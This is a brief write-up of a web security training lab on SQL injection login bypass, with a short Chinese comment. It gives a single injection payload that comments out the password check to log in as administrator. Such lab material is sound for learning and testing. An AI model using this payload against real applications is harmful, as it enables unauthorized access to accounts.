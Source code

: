# Lab: SQL injection vulnerability allowing login bypass

This lab contains an SQL injection vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user.

## SQL injection
* 要繞過登入驗證
```
payload = username='or 123=123 -- - &password=123
```